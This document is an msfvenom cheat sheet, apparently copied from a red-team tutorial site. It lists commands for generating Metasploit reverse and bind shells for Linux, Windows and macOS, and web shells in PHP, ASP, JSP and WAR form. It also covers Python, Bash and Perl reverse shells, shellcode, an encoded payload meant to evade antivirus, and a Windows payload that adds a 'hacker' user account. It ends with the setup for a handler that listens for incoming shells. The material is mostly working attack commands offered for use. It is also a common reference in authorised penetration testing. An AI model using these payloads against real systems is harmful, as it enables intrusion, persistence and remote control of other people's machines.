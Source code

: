 # Metasploit Reverse Shells

**List payloads**  
msfvenom -l

**Binaries Payloads**

**Linux Meterpreter Reverse Shell**  
msfvenom -p linux/x86/meterpreter/reverse\_tcp LHOST=&lt;Local IP Address&gt; LPORT=&lt;Local Port&gt; -f elf &gt; shell.elf

**Linux Bind Meterpreter Shell**  
msfvenom -p linux/x86/meterpreter/bind\_tcp RHOST=&lt;Remote IP Address&gt; LPORT=&lt;Local Port&gt; -f elf &gt; bind.elf

**Linux Bind Shell**  
msfvenom -p generic/shell\_bind\_tcp RHOST=&lt;Remote IP Address&gt; LPORT=&lt;Local Port&gt; -f elf &gt; term.elf

**Windows Meterpreter Reverse TCP Shell**  
msfvenom -p windows/meterpreter/reverse\_tcp LHOST=&lt;Local IP Address&gt; LPORT=&lt;Local Port&gt; -f exe &gt; shell.exe

**Windows Reverse TCP Shell**  
msfvenom -p windows/shell/reverse\_tcp LHOST=&lt;Local IP Address&gt; LPORT=&lt;Local Port&gt; -f exe &gt; shell.exe

**Windows Encoded Meterpreter Windows Reverse Shell**  
msfvenom -p windows/meterpreter/reverse\_tcp -e shikata\_ga\_nai -i 3 -f exe &gt; encoded.exe

**Mac Reverse Shell**  
msfvenom -p osx/x86/shell\_reverse\_tcp LHOST=&lt;Local IP Address&gt; LPORT=&lt;Local Port&gt; -f macho &gt; shell.macho

**Mac Bind Shell**  
msfvenom -p osx/x86/shell\_bind\_tcp RHOST=&lt;Remote IP Address&gt; LPORT=&lt;Local Port&gt; -f macho &gt; bind.macho

**Web Payloads**

**PHP Meterpreter Reverse TCP**  
msfvenom -p php/meterpreter\_reverse\_tcp LHOST=&lt;Local IP Address&gt; LPORT=&lt;Local Port&gt; -f raw &gt; shell.php  
cat shell.php \| pbcopy && echo ‘&lt;?php ‘ \| tr -d ‘\n’ &gt; shell.php && pbpaste &gt;&gt; shell.php

**ASP Meterpreter Reverse TCP**  
msfvenom -p windows/meterpreter/reverse\_tcp LHOST=&lt;Local IP Address&gt; LPORT=&lt;Local Port&gt; -f asp &gt; shell.asp

**JSP Java Meterpreter Reverse TCP**  
msfvenom -p java/jsp\_shell\_reverse\_tcp LHOST=&lt;Local IP Address&gt; LPORT=&lt;Local Port&gt; -f raw &gt; shell.jsp

**WAR**  
msfvenom -p java/jsp\_shell\_reverse\_tcp LHOST=&lt;Local IP Address&gt; LPORT=&lt;Local Port&gt; -f war &gt; shell.war

**Scripting Payloads  
  
Python Reverse Shell**  
msfvenom -p cmd/unix/reverse\_python LHOST=&lt;Local IP Address&gt; LPORT=&lt;Local Port&gt; -f raw &gt; shell.py

**Bash Unix Reverse Shell**  
msfvenom -p cmd/unix/reverse\_bash LHOST=&lt;Local IP Address&gt; LPORT=&lt;Local Port&gt; -f raw &gt; shell.sh

**Perl Unix Reverse shell**  
msfvenom -p cmd/unix/reverse\_perl LHOST=&lt;Local IP Address&gt; LPORT=&lt;Local Port&gt; -f raw &gt; shell.pl

**Shellcode**

Windows Meterpreter Reverse TCP Shellcode  
msfvenom -p windows/meterpreter/reverse\_tcp LHOST=&lt;Local IP Address&gt; LPORT=&lt;Local Port&gt; -f &lt;language&gt;

**Linux Meterpreter Reverse TCP Shellcode**  
msfvenom -p linux/x86/meterpreter/reverse\_tcp LHOST=&lt;Local IP Address&gt; LPORT=&lt;Local Port&gt; -f &lt;language&gt;

**Mac Reverse TCP Shellcode**  
msfvenom -p osx/x86/shell\_reverse\_tcp LHOST=&lt;Local IP Address&gt; LPORT=&lt;Local Port&gt; -f &lt;language&gt;

**Create User**  
msfvenom -p windows/adduser USER=hacker PASS=Hacker123$ -f exe &gt; adduser.exe

**Metasploit Handler**

use exploit/multi/handler  
set PAYLOAD &lt;Payload name&gt;  
Set RHOST &lt;Remote IP&gt;  
set LHOST &lt;Local IP&gt;  
set LPORT &lt;Local Port&gt;  
Run



Ref: [https://redteamtutorials.com/2018/10/24/msfvenom-cheatsheet/](https://redteamtutorials.com/2018/10/24/msfvenom-cheatsheet/)

